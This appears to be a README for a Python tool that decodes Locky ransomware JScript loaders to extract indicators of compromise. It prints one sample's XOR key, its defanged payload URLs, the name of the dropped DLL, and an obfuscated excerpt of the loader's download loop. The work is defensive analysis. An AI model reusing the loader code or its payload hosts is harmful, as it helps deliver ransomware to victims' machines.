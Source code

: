 # Locky Indicator of Compromise (IOC) JSCRIPT Extractor

Source: **https://www.flashpoint-intel.com/anatomy-locky-zepto-ransomware/**

Source:

Usage: **python LockyExtractor.py --> path to the local JScript Locky file.

**Goal**: Assist analysts with decoding and obtain relevant information from Locky HTA Application (HTA) and Windows Script File (WSF) JSCRIPT loaders.

Locky ransomware was notorious for its usage of the second-stage JavaScript and Windows Script File JSCRIPT in its spray-and-pray attacks.

**These are classic simple XOR-ed .wsf/.hta SCRIPT payloads used by this gang.**

For example, let’s take a look at this:

**sample 3d91a6ffed8b038363a0ead0f8985d1bdf88ba543aff0bcab048819d70455073.jscript.**


**Padding word:**

LICIZAX

**XOR Key:**

b6vYxEjsTYwJ7mIrZz4WFSGHeaddkwbq

**Payload URI: (*remove padding word and decode Base64): **

goldenladywedding[.]com/vdG76VUY76rjnu?CHhjpz=zhXHhhwS
www[.]jmetalloysllp[.]com/vdG76VUY76rjnu?CHhjpz=zhXHhhwS
livewebsol[.]com/vdG76VUY76rjnu?CHhjpz=zhXHhhwS

**Filename in %TEMP%/AppData/ (launched by rundll32.exe with ‘qwerty'):**

NqmXYsBdh[.]dll

**Here is the relevant function right below the eval() one:**

```var brigadabrigadalalapolicMOTALO2HORDA17 = "NqmXYsBdh";
var brigadabrigadalalapolicTRAxKey = brigadabrigadalalapolicMOTALO2fsta("b6vYxEjsTYwJ7mIrZz4WFSGHeaddkwbq");
var brigadabrigadalalapolicMOTALO2_a5 = ["Z29sZGVubGFkeLICIZAXXdlZGRpbmcuY29tL3ZkRzc2VlVZNzZyam51","dLICIZAX3d3LmptZXRhbGxveXNsbHAuYLICIZAX29tL3ZkRzc2VlVZNzZyam51","bGl2ZXdlYnNvbC5jb20vdmRHLICIZAXNzZWVVk3NnJqbnU="]; 
var brigadabrigadalalapolicMOTALO2HORDAI = 0;
for(brigadabrigadalalapolicMOTALO2HORDA5 in brigadabrigadalalapolicMOTALO2_a5){
brigadabrigadalalapolicMOTALO2HORDAI++;
try{
var brigadabrigadalalapolicMOTALO2HORDA6 =brigadabrigadalalapolicMOTALO2_bChosteck.brigadabrigadalalapolicMRADXHO() + brigadabrigadalalapolicMOTALO2_a5[brigadabrigadalalapolicMOTALO2HORDA5].brigadabrigadalalapolicMRADXHO() + "?CHhjpz=zhXHhhwS";
if(brigadabrigadalalapolicMOTALO2_a2(brigadabrigadalalapolicMOTALO2HORDA6,brigadabrigadalalapolicMOTALO2HORDA17+brigadabrigadalalapolicMOTALO2HORDAI)){
break;
```
